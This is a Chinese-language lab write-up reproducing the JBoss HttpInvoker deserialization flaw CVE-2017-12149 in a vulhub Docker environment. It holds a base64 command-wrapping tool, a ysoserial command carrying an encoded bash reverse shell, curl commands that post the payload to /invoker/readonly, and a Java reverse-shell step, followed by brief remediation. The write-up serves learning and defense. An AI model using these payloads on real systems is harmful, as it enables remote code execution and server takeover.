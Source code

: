 # JBoss 5.x/6.x 反序列化漏洞（CVE-2017-12149）复现学习

该漏洞为 Java反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

**漏洞概要**

| **漏洞名称**             | JBOSSAS5.x/6.x反序列化命令执行漏洞 |
| ------------------------ | ---------------------------------- |
| **威胁类型**             | 远程命令执行                       |
| **威胁等级**             | 高                                 |
| **漏洞ID**               | CVE-2017-12149                     |
| **受影响系统及应用版本** | Jboss AS 5.xJbossAS 6.x            |

## 漏洞环境

~~~
https://github.com/vulhub/vulhub/tree/master/jboss/CVE-2017-12149
~~~

初始化

~~~
docker-compose up -d
~~~

初始化完成后访问`http://your-ip:8080/`即可看到JBoss默认页面。

## 漏洞复现

该漏洞出现在`/invoker/readonly`请求中，服务器将用户提交的POST内容进行了Java反序列化：

![image-20220329162810076](E:\学习\picture\image-20220329162810076.png)

### 编写反弹shell的命令

~~~~html
<!DOCTYPE html>
<html lang="en">
 <head> 
  <title>java.lang.Runtime.exec() Payload Workarounds - @Jackson_T</title> 
  <meta charset="utf-8" /> 
  <meta name="viewport" content="width=device-width, initial-scale=1.0" /> 
  <!-- <link rel="stylesheet" href="./css/main.css" type="text/css" /> --> 
  <style>
body {
	margin: 0;
	padding: 10px 0;
	text-align: center;
	font-family: 'Ubuntu Condensed', sans-serif;
	color: #585858;
  background-color: #fff;
	font-size: 13px;
	line-height: 1.4
}			
::selection {
	background: #fff2a8;
}
pre, code {
	font-family: 'Ubuntu Mono', 'Consolas', Monospace;
  font-size: 13px;
  background-color: #E5F5E5;
  color: #585858;
  padding-left: 0.25em;
  padding-right: 0.25em;
	/*display: block;*/
}		
#wrap {
	margin-left: 1em;
	margin-right: 1em;
	text-align: left;
	font-size: 13px;
	line-height: 1.4
}
	#wrap {
		width: 820px;
	}
	#container {
		float: right;
		width: 610px;
	}
.entry {
	font-size: 14px;
	line-height: 20px;
	hyphens: auto;
	font-family: 'Roboto', sans-serif, 'Inconsolata', Monospace;
}
</style> 
 </head> 
 <body> 
  <div id="wrap"> 
   <div id="container"> 
    <div class="entry"> 
     <article> 
      <p>偶尔有时命令执行有效负载<code>Runtime.getRuntime().exec()</code>失败. 使用 web shells, 反序列化漏洞或其他向量时可能会发生这种情况.</p> 
      <p>有时这是因为重定向和管道字符的使用方式在正在启动的进程的上下文中没有意义. 例如 <code>ls &gt; dir_listing</code> 在shell中执行应该将当前目录的列表输出到名为的文件中 <code>dir_listing</code>. 但是在 <code>exec()</code> 函数的上下文中,该命令将被解释为获取 <code>&gt;</code> 和 <code>dir_listing</code> 目录.</p> 
      <p>其他时候,其中包含空格的参数会被StringTokenizer类破坏.该类将空格分割为命令字符串. 那样的东西 <code>ls &quot;My Directory&quot;</code> 会被解释为 <code>ls '&quot;My' 'Directory&quot;'</code>.</p> 
      <p>在Base64编码的帮助下, 下面的转换器可以帮助减少这些问题. 它可以通过调用Bash或PowerShell再次使管道和重定向更好,并且还确保参数中没有空格.</p> 
      <p>Input type: <input type="radio" id="bash" name="option" value="bash" onclick="processInput();" checked="" /><label for="bash">Bash</label> <input type="radio" id="powershell" name="option" value="powershell" onclick="processInput();" /><label for="powershell">PowerShell</label> <input type="radio" id="python" name="option" value="python" onclick="processInput();" /><label for="python">Python</label> <input type="radio" id="perl" name="option" value="perl" onclick="processInput();" /><label for="perl">Perl</label></p> 
      <p><textarea rows="10" style="width: 100%; box-sizing: border-box;" id="input" placeholder="Type input here..."></textarea> <textarea rows="5" style="width: 100%; box-sizing: border-box;" id="output" onclick="this.focus(); this.select();" readonly=""></textarea></p> 
      <script>
  var taInput = document.querySelector('textarea#input');
  var taOutput = document.querySelector('textarea#output');

  function processInput() {
    var option = document.querySelector('input[name="option"]:checked').value;

    switch (option) {
      case 'bash':
        taInput.placeholder = 'Type Bash here...'
        taOutput.value = 'bash -c {echo,' + btoa(taInput.value) + '}|{base64,-d}|{bash,-i}';
        break;
      case 'powershell':
        taInput.placeholder = 'Type PowerShell here...'
        poshInput = ''
        for (var i = 0; i < taInput.value.length; i++) { poshInput += taInput.value[i] + unescape("%00"); }
        taOutput.value = 'powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc ' + btoa(poshInput);
        break;
      case 'python':
        taInput.placeholder = 'Type Python here...'
        taOutput.value = "python -c exec('" + btoa(taInput.value) + "'.decode('base64'))";
        break;
      case 'perl':
        taInput.placeholder = 'Type Perl here...'
        taOutput.value = "perl -MMIME::Base64 -e eval(decode_base64('" + btoa(taInput.value) + "'))";
        break;
      default:
        taOutput.value = ''
    }

    if (!taInput.value) taOutput.value = '';
  }

  taInput.addEventListener('input', processInput, false);
</script> 
     </article> 
    </div> 
   </div> 
  </div>  
 </body>
</html>
~~~~

通过上面的html进行bash

![image-20220329170648957](E:\学习\picture\image-20220329170648957.png)

### 序列化数据生成

使用[ysoserial](https://github.com/frohoff/ysoserial)来复现生成序列化数据，由于Vulhub使用的Java版本较新，所以选择使用的gadget是CommonsCollections5：

```
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE1My4xMjgvMjEgMD4mMQ==}|{base64,-d}|{bash,-i}" > poc.ser
```

生成好的POC即为poc.ser

### 发送POC

**使用burp或者通过二进制的方式post发送攻击载荷**

- 通过二进制POST方式发送攻击载荷到 /invoker/readonly

~~~
curl http://172.18.174.198:8080/invoker/readonly --data-binary @poc.ser
~~~

![image-20220329165948680](E:\学习\picture\image-20220329165948680.png)

![image-20220329170451458](E:\学习\picture\image-20220329170451458.png)

- 通过burp 

  将这个文件作为POST Body发送至/invoker/readonly即可：

![image-20220329162235924](E:\学习\picture\image-20220329162235924.png)

![image-20220329172154807](E:\学习\picture\image-20220329172154807.png)

## JBoss反序列化工具一键检测：



![image-20220329161659115](E:\学习\picture\image-20220329161659115.png)

## **攻击方式**

攻击者只需要构造带有需要执行Payload的ser文件，然后使用curl将二进制文件提交至目标服务器的invoker/readonly页面中，即可执行Payload中指定的命令，获取对电脑的控制权。攻击示例代码如下：

**//编译预置payload的java文件**

javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java

**//反弹shell的IP和端口**

java -cp .:commons-collections-3.2.1.jar  ReverseShellCommonsCollectionsHashMap 1.1.1.1:6666

**//使用curl向/invoker/readonly提交payload**

curl http://192.268.197.25:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser

## **修复方法**

1. 不需要 http-invoker.sar 组件的用户可直接删除此组件。

2. 添加如下代码至 http-invoker.sar 下 web.xml 的 security-constraint 标签中，对 http invoker 组件进行访问控制：

   <url-pattern>/*</url-pattern>